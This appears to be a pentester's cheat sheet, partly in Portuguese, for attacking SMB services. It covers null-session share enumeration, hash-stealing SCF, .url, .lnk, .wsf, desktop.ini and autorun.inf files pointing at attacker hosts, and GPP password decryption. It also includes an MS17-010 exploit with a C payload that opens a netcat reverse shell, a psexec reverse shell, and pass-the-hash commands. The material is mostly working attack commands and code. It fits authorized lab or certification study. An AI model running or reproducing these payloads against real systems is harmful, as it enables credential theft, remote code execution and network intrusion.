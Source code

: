 SMB
========================

OBS: Para que comporte todos as versões de protocolo, temos que informar o seguinte no arquivo de configuração:

    [global]

    #### Kali configuration (use kali-tweaks to change it) ####

    # By default a Kali system should be configured for wide compatibility,
    # to easily interact with servers using old vulnerable protocols.
       #client min protocol = LANMAN1
       client min protocol = CORE
       client max protocol = SMB3

    ## Browsing/Identification ###
    #   force user = acosta

    # Change this to the workgroup/NT-domain name your Samba server will part of
    #   workgroup = DOMAIN

## Null session and guest

### smbmap

null session

    smbmap -H 10.11.1.227 -u '' -p ''

user guest

    smbmap -H 10.11.1.227 -u guest -p ''
    
### smbclient

    smbclient -L 10.11.1.227 -U 'workgroup/guest'
    <ENTER>
    smbclient -U 'workgroup/guest' //10.11.1.227/share
    <ENTER>

Para conseguir fazer enunmeração mais rapidamente, é interessante que utilizemos o recurso de recursividade no smbclient com os seguintes comandos:

    recurse on
    dir

Desta forma, basta exxecutar esses dois comandos para ele fazer a busca via dir recursivamente

### Crackmapexec

    crackmapexec smb <hostname> -u '' -p '' --shares
    
    crackmapexec smb <hostname> -u 'guest' -p '' --shares
    


## Obtain NTLM hashes (write access)

source https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

### SCF files

    [Shell]
    Command=2
    IconFile=\\10.10.14.4\smb\uwu.ico
    [Taskbar]
    Command=ToggleDesktop

    sudo responder -I tun0

### Internet Shortcuts (.url)

Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

    echo [InternetShortcut] > stealMyHashes.url 
    echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url

### Shortcut Files (.lnk)

We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.
```
[code language=”vb”]
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
[/code]

The Powershell version.
[code language=”powershell”]
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut(&quot;StealMyHashes.lnk&quot;)
$lnk.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
$lnk.WindowStyle = 1
$lnk.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
$lnk.Description = &quot;I will Steal your Hashes&quot;
$lnk.HotKey = &quot;Ctrl+Alt+O&quot;
$lnk.Save()
[/code]
```
### Windows Script Files

Save this as something.wsf.

```
[code language=”xml”]
&lt;package&gt;
&lt;job id=&quot;boom&quot;&gt;
&lt;script language=&quot;VBScript&quot;&gt;
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
Set file = fso.OpenTextFile(&quot;//192.168.0.100/aa&quot;, 1)
&lt;/script&gt;
&lt;/job&gt;
&lt;/package&gt;
[/code]
```

### Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

    mkdir openMe
    attrib +s openMe
    cd openMe
    echo [.ShellClassInfo] > desktop.ini
    echo IconResource=\\192.168.0.1\aa >> desktop.ini
    attrib +s +h desktop.ini


In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

    [.ShellClassInfo]
    IconFile=\\192.168.0.1\aa
    IconIndex=1337

### Autorun.inf

Starting from Windows 7 this feature is disabled. However you can enable by changing the group policy for Autorun. Make sure to hide the Autorun.inf file to work.

    [autorun]
    open=\\35.164.153.224\setup.exe
    icon=something.ico
    action=open Setup.exe

## GPP Group.xml

Essa pasta geralmente se encontra dentro do diretório SYSVOL (compartilhado)

    ./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

Nesse cenário, basta executarmos uma ferramenta para decriptar a senha armazenada neste arquivo:

    git clone https://github.com/t0thkr1s/gpp-decrypt
    python3 gpp-decrypt.py -f [groups.xml]
    #ou
    python3 gpp-decrypt.py -c [cpassword]

## CVEs/Exploits

### ms17-010

    tools
    cd cve/2017-0143/impacket
    source exploit_ms17-010/bin/activate

Nesse momento já temos o ambiente preparado para execução do script, mas temos que preparar o paylolad pra funcionar:

    #include<stdlib.h>
    
    int main() {
    
            int i;
            i = system("START /B \\\\192.168.119.156\\smb\\nc.exe 192.168.119.156 80 -e cmd");
            return 0;
    }
Adequar este payload toda vez que for utilizá-lo

    i686-w64-mingw32-gcc backup.c -o backup.exe
    
    impacket-smbserver -smb2support smb /usr/share/windows-binaries
    nc -nlvp 80
    python ../impacket/send_and_execute.py 10.11.1.227 ../payload/backup.exe
    

## Psexec

baixar do sysinternals

    .\psexec -d -s -i ".\nc.exe -e powershell 10.10.14.14 8081"

## Pass the hash

Impacket and evil-winrm

```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```
